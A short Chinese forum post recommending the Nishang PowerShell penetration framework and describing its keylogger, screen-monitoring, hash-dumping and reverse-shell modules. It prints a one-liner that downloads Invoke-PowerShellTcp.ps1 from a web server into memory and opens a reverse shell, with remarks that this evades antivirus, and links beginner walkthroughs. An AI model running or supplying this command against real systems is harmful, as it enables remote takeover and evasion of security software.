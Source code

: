 #nishang 牛逼的powershell渗透框架

tags: #工具#, 

nishang 牛逼的powershell渗透框架
玩渗透的都在夸powershell各种bypass，各种无文件入侵。我们当然得了解下了，有多强大，谁试谁知道！

nishang是作者nikhil_mitt在渗透测试过程中，根据实战经验编写出来的，各个脚本都有很强大的实战意义。
什么下载和执行、键盘记录、屏幕监视、内网扫描、抓HASH、用Mimikatz 抓密码、各式各样的反弹、反弹meterpreter shell还有删除补丁等等强大模块。
其中键盘记录跟屏幕监控，觉得挺有意思的。
键盘记录脚本会将记录的信息用POST方式发到你设置的URL上，读取到你设置的URL下你设置的特定内容它会停止记录。
屏幕监控开启后，会在对方电脑上开启一个端口，你用web访问它这个端口就会生成对方屏幕的截图，并且会实时刷新，挺有意思。
简单演示下：
C:\Users\Administrator>powershell IEX (New-Object Net.WebClient).DownloadString(
'[http://192.168.1.190/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp](http://192.168.1.190/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp) -Reverse -
IPAddress 192.168.1.190 -port 8888

将你的利用脚本放到你的web服务器中，然后在你的webshell上直接执行上面这样的命令调用执行，直接加载进内存，所以bypass各种杀软。

还可以加载特定的exe程序进内存执行，只要没有写入磁盘动作，AV对它没任何反应。

可用插件太多了，地址在这里 [GitHub+-+samratashok/nishang:+Nishang+-+PowerShell...](https://github.com/samratashok/nishang)

另外照顾一下像我一样的小白，找了两篇不错的利用文章，小白看一遍，照着实验来一发是最好的了。
当然关于晋级的学习路线，就是想办法搞懂框架里面每个ps脚本，完全看懂，搞明白为什么这样编写，那样你不是大神都难啊！

[60字节+-+无文件渗透测试实验+-+n0tr00t](https://www.n0tr00t.com/2017/03/09/penetration-test-without-file.html)  这篇实验很不错

[http://www.4hou.com/technology/5962.html](http://www.4hou.com/technology/5962.html)    这篇介绍了一些功能

![image_28855115115881](/assets/28855115115881.jpeg)

![image_88855115115252](/assets/88855115115252.jpeg)

[comment]: <> (topic_id:28858518488481)

[comment]: <> (create_time:2017-07-12T22:22:04.224+0800)

[comment]: <> (topic_type:talk)

[comment]: <> (owner:158821818412_ke)

